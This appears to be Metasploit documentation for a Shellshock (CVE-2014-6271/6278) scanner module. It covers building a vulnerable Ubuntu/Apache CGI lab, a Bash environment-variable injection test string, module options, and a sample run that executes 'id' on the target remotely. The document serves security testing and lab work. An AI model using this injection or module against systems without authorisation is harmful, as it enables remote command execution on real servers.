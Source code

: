 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the `HTTP_USER_AGENT` environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:

  1. Install [Ubuntu 12.04.5 LTS](http://cdimage.ubuntu.com/releases/12.04/release/)
  2. Log into console
  3. Confirm the host is vulnerable (see next section)
  4. Also install Apache2 from the apt repository with the following command

    ```
    sudo apt-get install apache2
    ```

  5. Enable cgi-mod in apache with the following command

    ```
    sudo ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
    ```

  6. Restart the apache service with the following command

    ```
    sudo service apache2 reload
    ```

  7. In your favorite text editor create a file (as root) in `/usr/lib/cgi-bin` called `test.sh` with the following contents:

    ```
    #!/bin/bash
    printf "Content-type: text/html\n\n"
    printf "Test!\n"
    ```

  8. Set the file to be executable with the following command

    ```
    sudo chmod +x /usr/lib/cgi-bin/test.sh
    ```

### To check if a host is vulnerable to the attack

   1. Run (on the host)

    ```
    env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
    ```

   2. The shell will return the below text if the environment is vulnerable

    ``` 
    vulnerable
    bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
    bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
    bash: error importing function definition for `BASH_FUNC_x'
    test
    ```

## Verification Steps

1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
3. Do: set `RHOSTS [IP]`
4. Do: set `TARGETURI [URI]`
5. Do: `run`

## Options

### CMD

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

### CVE

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2014-6271` but valid options are `CVE-2014-6271` or `CVE-2014-6278`.

### HEADER

This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

### METHOD

This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22

  ```
msf > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
